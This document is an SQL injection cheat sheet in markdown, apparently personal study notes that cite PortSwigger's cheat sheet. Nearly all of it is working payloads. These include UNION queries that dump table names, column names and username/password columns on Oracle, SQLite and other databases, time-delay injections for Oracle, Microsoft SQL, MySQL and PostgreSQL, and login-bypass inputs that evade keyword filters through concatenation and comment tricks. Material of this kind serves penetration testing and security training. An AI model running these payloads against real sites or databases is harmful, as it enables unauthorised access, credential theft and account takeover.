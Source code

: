 # [Portswigger SQLi CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Leak Database Contents
### Oracle
`' UNION SELECT NULL,NULL FROM DUAL-- -`
`' UNION SELECT TABLE_NAME, NULL FROM all_tables-- -`
`' UNION SELECT COLUMN_NAME, NULL FROM all_tab_columns WHERE TABLE_NAME=<TABLE_NAME>-- -`
`' UNION SELECT USERNAME, PASSWORD FROM <TABLE_NAME>-- -`
### SQLite
	' UNION SELECT name FROM sqlite_master;-- - (Get table names and SQL statement to create them with table column names)
	' UNION SELECT <target_column_name> FROM <target_table_name>;-- -
### Others
	' UNION SELECT NULL, NULL-- - (check if union based SQLi is available, change the number of NULLs)
	' UNION SELECT TABLE_NAME, NULL FROM INFORMATION_SCHEMA.TABLES-- - (get all table names)
	' UNION SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = <table_name>-- - (get all column names for a table)

## String Concatenation
### Oracle
	'foo'||'bar'
### Microsoft
	'foo'+'bar'
### PostgreSQL
	'foo'||'bar'
### MySQL
	'foo' 'bar' (space between)
	CONCAT('foo','bar')
### Concat Two Results Into One Column
	' UNION SELECT COLUMN1 || '~' || COLUMN2 FROM TABLE-- -

## Conditional Time Delays
### Oracle
	TrackingId=abc'||(SELECT CASE WHEN 1=1 THEN DBMS_LOCK.SLEEP(10) ELSE NULL END FROM dual)-- 
### Microsoft SQL
	TrackingId=abc'; WAITFOR DELAY '0:0:10'-- 
	TrackingId=abc'; IF (1=1) WAITFOR DELAY '0:0:10'-- 
### MySQL
	TrackingId=xyz' OR SLEEP(10)-- 
	TrackingId=xyz'||(SELECT SLEEP(10))-- 
### PostgreSQL
	TrackingId=xyz'||(SELECT pg_sleep(10))-- 
	TrackingId=xyz'||(SELECT CASE WHEN 1=1 THEN pg_sleep(10) ELSE pg_sleep(0) END)-- 

## Substring Function
### Oracle
	SUBSTR('foobar',4,2)

### Others
	SUBSTRING('foobar',4,2)

## DB Version
### Oracle
	SELECT banner FROM v$version
	SELECT version FROM v$instance

### Microsoft
	SELECT @@version

### PostgreSQL
	SELECT version()

### MySQL
	SELECT @@version

## Extra Payloads
### Bypassing Filters (or)
**username: admin'-- -** (The username must be known)
**password: password123**

### Bypassing Filters (or, and, like, =, --, <, >)
**username: admin'/\*** (The username must be known)
**password: password123**

### Bypassing Filters (or, and, like, =, --, <, >, union, admin (or the known username))
**username: ad'||'min'/\*** (Uses concatenation to form the word *admin*)
**password: password123**

### Bypassing Filters (or and true false union like = > < ; -- /* */ admin (or the known username))
**username: ad'||'min**
**password: a' is not 'b** (Evaluates to true)

### Equality Check Order
Take the following SQL statement for a login page as an example:

	`SELECT id FROM users WHERE password = 'admin' AND username = 'admin'`

The password value is being checked before the username value so the following will not work:
**username: john' or 1=1-- -**
**password: password123**

That is because the comment operator `--` is placed at the end of the SQL statement and therefore has no effect. Instead the correct payload would be:
**username: john**
**password: password123' or 1=1-- -**
